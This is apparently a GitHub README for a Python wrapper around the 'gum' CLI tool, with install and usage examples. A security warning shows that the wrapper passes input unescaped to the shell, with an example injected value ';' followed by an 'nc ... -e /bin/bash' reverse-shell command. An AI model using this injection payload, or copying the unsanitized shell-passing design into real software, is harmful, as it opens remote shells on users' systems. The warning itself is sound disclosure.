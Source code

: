 # Gum

A simple python3 bindings of a tool called 'gum'.
https://github.com/charmbracelet/gum <br>
gum is a tool for glamorous shell scripts, written in go,
and supposed to be used in shell scripts.
I've created an eassy to use python class that takes advantage
of that tool and let the avrage python user create a cool looking
CLIs.

# Installation
Use the install instractions from https://github.com/charmbracelet/gum and then:
```bash
$ git clone https://github.com/idobarel/gum-python
$ cd gum-python
$ sudo python3 setup.py install
```

# Usage
```python
import gum

print("which basketball team you like the most?")
x = gum.search(["cavs", "magic", "golden state", "boston"])
gum.spin("hold on...")
print(f"No way! I'm there biggest fan!")
```

# Importent!
The package itself doesn't escapes the users input, **the developer must sanitize the input**
A malicius user can send an input that look like this:
```python
import gum

gum.choose([';', "nc 192.168.1.153 4444 -e /bin/bash"])
```
And it will spawn a reverse shell to the target.

# Notice 
As it is for now, I have nothing to deal with the authours of the gum tool, I wanted it to be easier to use in big python applications, so I created this code.
Just to clear any missunderstandings, all the credit and the notice should go to @charm or https://github.com/charmbracelet.
